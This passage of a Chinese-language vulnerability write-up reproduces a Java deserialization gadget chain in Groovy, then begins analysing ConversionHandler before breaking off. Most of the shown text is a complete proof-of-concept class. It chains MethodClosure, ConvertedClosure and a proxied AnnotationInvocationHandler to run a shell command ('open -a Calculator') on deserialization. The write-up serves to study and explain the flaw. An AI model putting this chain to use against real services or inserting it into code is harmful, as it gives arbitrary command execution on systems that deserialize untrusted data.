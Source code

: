 ## 漏洞复现

```
package Unser.Hessians.Groovy;

import org.codehaus.groovy.runtime.ConversionHandler;
import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Map;

public class hhh {
    public static void main(String[] args) throws Exception {
        MethodClosure methodClosure = new MethodClosure("open -a Calculator","execute");
        ConvertedClosure convertedClosure = new ConvertedClosure(methodClosure,"entrySet");
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

        Map map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},convertedClosure);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class,map);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(invocationHandler);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
}

```

## 漏洞分析

我们重点来关注org.codehaus.groovy.runtime的ConversionHandler类，这个类实现了invocationHandler并且重写了invoke方法

![image-20230321210452112](images/6.png)

这里我们就很容易去想到动态代理的方式，这里的invokeCustom方法（在其子类ConvertClosure实现）
